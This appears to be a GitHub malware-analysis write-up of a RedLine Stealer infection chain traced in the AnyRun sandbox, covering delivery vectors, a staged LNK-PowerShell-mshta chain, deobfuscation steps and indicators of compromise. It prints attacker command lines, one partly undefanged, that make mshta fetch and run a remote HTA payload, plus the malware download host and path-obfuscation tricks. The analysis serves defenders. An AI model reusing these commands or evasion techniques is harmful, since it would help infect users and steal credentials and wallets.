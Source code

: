 # RedLine Stealer infection chain analysis using AnyRun Sandbox

## Overview of RedLine Stealer :

- RedLine Stealer, an infostealer malware first identified in March 2020, specializes in extracting valuable information and assets from compromised systems, primarily targeting end users. Commonly distributed through compromised software downloads, phishing attempts, and drive-by downloads, RedLine Stealer focuses on pilfering insecure passwords and cryptocurrency wallets. Beyond these targets, it possesses the capability to harvest an array of system information, including IP addresses, usernames, keyboard layouts, and installed security solutions. Moreover, it can serve as a vehicle for distributing additional malware, such as ransomware, exacerbating the potential damage.
 
- More information on the RedLine Stealer and its trends can be found in ANY.RUN’s Malware Trends. RedLine is top trending malware in 2023.

- https://any.run/malware-trends/redline

![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/da455b4c-dd0a-46ec-a629-62b92140dbef)

## RedLine Infection Vectors :

- RedLine's versatility is evident in its diverse delivery mechanisms, It is used in multiple smaller campaigns by individuals who have purchased the malware from the underground malware forums. Due to this, there are a wide range of known infection vectors. Only few of them are stated below:
 
  - Trojanizing as popular services like Telegram, Signal, or Discord to create seemingly legitimate installers.
  - Email phishing campaigns aimed at luring victims into downloading the malware.
  -	Exploitation of Google Ads while hosting Trojanized or fake websites.
  -	Social engineering tactics targeting digital artists using Non-Fungible Tokens (NFTs).
  -	Distribution through malware loaders, expanding its reach across various compromised systems.

## Sample Collection and Preparation for Analysis :

### AnyRun :

> https://app.any.run/tasks/5a51d459-6caa-47dd-9b27-715ca2ec92bb/             

> https://app.any.run/tasks/6212356e-6b48-4e80-b0fc-8c3dd5111e1d/

### MalwareBazaar

> https://bazaar.abuse.ch/sample/3086ac8861aaccdf3dc45f3b1380b6cd70169c7d9fc16f098f5a1d08736fed61/

## Analysis :

- The infection chain unfolds as follows:
 
  ***`LNK -> PS -> mshta.exe (URL1) -> PS -> cmd.exe -> PS (obfuscate + b64 + AES-decrypt) -> URL2 (exe)`***
 
- The initial payload is distributed via a phishing email containing a ZIP file. Once the ZIP file is extracted, you'll come across an LNK file that appears as a PDF symbol.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/659ea9a9-24b8-4432-b310-e7ede57cf94a)

- Following the execution of the LNK file, it utilizes PowerShell to initiate the execution of mshta.exe. 

- Mshta.exe is a Windows-native binary designed to execute Microsoft HTML Application (HTA) files. As its full name implies, Mshta can execute Windows Script Host code (VBScript and JScript) embedded within HTML in a network proxy-aware fashion.

- To avoid detection, attackers are using the path (\W*\2\msh*e) instead of the standard path - C:\Windows\System32\mshta.exe.

  **Command Line -** ***`"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" \W*\\\*2\\\msh*e ('http'+'://thanhancompany.com/ta/line'+'.hta')`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d2256dce-b51b-4bfd-94b0-aa409bafb609)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/faa42324-2cd6-4106-a125-0ef89810469d)

- The mshta.exe establishes a connection with the URL specified in the LNK file and execute the hta file.
 
  **Command Line -** ***`"C:\Windows\System32\mshta.exe" http[://]thanhancompany[.]com[/]ta[/]line[.]hta`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/4933084e-1cfa-4cb4-af7b-f3018f39fb01)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/b2d33313-9731-4fd6-b750-4c146b340612)

- The HTA script uses the VBScript ‘chr’ function to obfuscate by translating ASCII codes into characters. VBScript often employs the 'chr' function to obfuscate its code, where 'chr' converts Ascii codes to characters e.g. Chr(65) will return 'A'. 

-	In this script it uses simple subtraction before converting the character to Ascii using chr.

  **Reference Link -** https://isvbscriptdead.com/vbs-obfuscator/
 
-	Two methods can deobfuscate this script:
 
      1. Using CyberChef.
 
      2. Save the HTA content as a new file. Replace instances of 'Execute' with 'Wscript.Echo' within the resulting VBS file. Running the modified file using cscript.exe reveals the deobfuscated script.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/0957627c-5657-411d-9db2-9058a56f6ef4)

-	In the AnyRun sandbox you will get you the deobfuscated script from the following Process 3008.

-	This deobfuscated hta script contains 2nd stage obfuscated PowerShell script which utilize AES decryption along with Gzip decompress and then execute using cmd.exe.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/336ba7ba-1ee3-40bf-b4f2-75b057854d95)

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/a3591110-db01-4956-8c4c-29df047907a4)


-	We will dump 2nd stage PowerShell script simply writing Write-Host at the bottom of the script and execute it.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/70ec5fcf-f104-4422-a71e-027cfe7afca9)

-	2nd stage PowerShell first opens Blank pdf and after then connects to the below URL and download ReadiLine Stealer and execute it.

   **URL –** ***`https[://]hiqsolution[.]com`***

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/2e102262-fb99-4f81-b5d3-6986cb33dadc)

-	Below snap shows the blank pdf opened after 2nd stage execution.

  ![image](https://github.com/RanjitPatil/RedLine-Infeaction-Chain/assets/43460691/d71d80a6-ba56-49ef-8ec3-ea3197f89e8b)


## IOC’s :

AnyRun Report (https://any.run/report/1bf287baf71f2a0872005e73399685df6b3a2b27cb2f27511deb4bdf566fbe67/5a51d459-6caa-47dd-9b27-715ca2ec92bb?_gl=1*cmzv32*_gcl_au*NjY1NzUzNzkuMTY5NzIxMzg3MA..*_ga*MTk4MTUxNzQ0LjE2NzQ4MzE3MjM.*_ga_53KB74YDZR*MTcwMzgzNjIwNy4zNy4xLjE3MDM4Mzg2MTYuMC4wLjA)


## References :

- CyberChef Receipes : https://github.com/Securityinbits/malware-analysis/blob/main/analysis/redline_stealer_aug_2023.md
  
